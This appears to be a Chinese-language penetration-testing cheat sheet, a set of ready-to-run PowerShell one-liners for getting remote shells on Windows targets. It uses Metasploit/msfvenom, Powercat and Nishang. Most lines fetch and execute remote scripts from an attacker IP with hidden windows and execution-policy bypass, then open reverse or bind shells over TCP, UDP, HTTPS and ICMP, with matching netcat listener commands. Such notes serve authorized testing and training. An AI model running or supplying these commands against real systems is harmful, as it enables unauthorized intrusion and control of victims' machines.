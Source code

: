 #### MSF+Powershell
	反弹MSF
	靶机
	PS >IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.100/powersploit/CodeExecution/Invoke-Shellcode.ps1') 
	PS >Invoke-Shellcode -payload windows/meterpreter/reverse_http -lhost 192.168.0.100 -lport 6666 -force
	攻击机：
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/reverse_ https
	>run
	或
	>msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.100 LPORT=4444 -f powershell -o /var/www/html/ps
	>IEX(New-Object Net.WebClient).DownloadString("http://192.168.0.100/powersploit/CodeExecution/Invoke-Shellcode.ps1")
	>IEX(New-Object Net.WebClient).DownloadString("http://192.168.0.100/ps")
	>Invoke-Shellcode -Shellcode ($buf)
	或
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f psh-reflection >/var/www/html/a.ps1
	>powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.101/a.ps1')"
#### Powercat
	>powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
	正向连接
	靶机:powercat -l -p 8080 -e cmd.exe –v
	攻击机:nc 192.168.0.1 8080 –vv
	反向连接：
	攻击机：nc –l –p 8080 –vv
	靶机:powercat –c 192.168.0.1 –p 8080 –v –e cmd.exe
	远程执行
	>powershell -nop -w hidden -ep bypass "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.0.107/ps/powercat/powercat.ps1'); powercat -c 192.168.0.107 -p 12345 -v -e cmd.exe"
	正向连接
	靶机:powercat -l -p 8080 -e cmd.exe -v
	攻击机:nc 192.168.0.1 8080 -vv
	反向连接：
	攻击机：nc -l -p 8080 -vv
	靶机:powercat -c 192.168.0.1 -p 8080 -v -e cmd.exe
![image](/assets/Pentest_Note/master/img/207.png)
#### Nishang
##### Bind shell
	靶机：
	>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Bind -Port 12138"
	攻击机：
	>nc 靶机IP 12138
##### 反向shell
	攻击机：
	>nc -vnlp 9999
	靶机：
	>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 攻击机IP -port 9999"
##### UDP反向shell
	攻击机：
	>nc -lvup 12138
	靶机：
	>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 攻击机IP -port 12138"
##### HTTPS
	攻击机：
	>powershell -nop -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PoshRatHttps.ps1'); Invoke-PoshRatHttps -IPAddress 192.168.0.98 -Port 8080 -SSLPort 443"  IP地址是本机IP
![image](/assets/Pentest_Note/master/img/208.png)

	靶机：
	>powershell -w hidden -nop -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.98:8080/connect')
![image](/assets/Pentest_Note/master/img/209.png)
##### ICMP
	攻击机IP:108
	靶机IP:100
	https://github.com/inquisb/icmpsh
	靶机执行
	>powershell -nop -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.108/ps/nishang/Shells/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp 192.168.0.108
![image](/assets/Pentest_Note/master/img/210.png)

	攻击机执行，开启相应ICMP ECHO请求
	>sysctl -w net.ipv4.icmp_echo_ignore_all=1
	>./icmpsh_m.py 192.168.0.108 192.168.0.100
![image](/assets/Pentest_Note/master/img/211.png)
#### Base64
	>Powershell "$string="net user";[convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($string))"